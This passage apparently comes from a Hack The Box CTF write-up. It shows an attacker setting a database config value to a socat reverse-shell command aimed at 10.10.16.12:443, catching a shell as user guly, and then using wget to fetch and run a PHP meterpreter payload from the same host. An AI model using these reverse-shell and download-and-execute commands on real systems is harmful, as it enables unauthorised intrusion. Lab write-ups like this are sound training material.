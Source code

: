 After some attempts to use our meterpreter shell from earlier, it appears some controls are blocking it. Living off the land by setting the `checkrelease` values to `socat` instead does the trick. 

Run a listener on our attacking machine:
```
# socat file:`tty`,raw,echo=0 tcp-listen:443,reuseaddr
```

Update `checkrelease` to our payload:
```
MariaDB [neddy]> update config set option_value = "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.12:443" where id = 86;
err,setsid,sigint,sane tcp:10.10.16.12:443" where id = 86;y,std 
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Immediately we get a shell from the user `guly`:

![](/img/hax/htb/guly_shell.png)

We want to establish a more stable shell. Looking for our previous php meterpreter, it is not visible to `guly`:
```
guly@unattended:~$ cd /tmp
guly@unattended:/tmp$ ls
systemd-private-fe15709562cd4f2599bdbc781b6e9896-apache2.service-qg1s74
systemd-private-fe15709562cd4f2599bdbc781b6e9896-apache2.service-w6yUCn
systemd-private-fe15709562cd4f2599bdbc781b6e9896-systemd-timesyncd.service-7zDdPB
systemd-private-fe15709562cd4f2599bdbc781b6e9896-systemd-timesyncd.service-A02fji
vmware-root
```

We can easily fetch it and run it again:
```
uly@unattended:/tmp$ wget http://10.10.16.12:443/shell.php
--2023-03-27 19:19:03--  http://10.10.16.12:443/shell.php
Connecting to 10.10.16.12:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1110 (1.1K) [application/octet-stream]
Saving to: ‘shell.php’

shell.php           100%[===================>]   1.08K  --.-KB/s    in 0s      

2023-03-27 19:19:03 (89.0 MB/s) - ‘shell.php’ saved [1110/1110]
```
```
guly@unattended:/tmp$ php shell.php
```
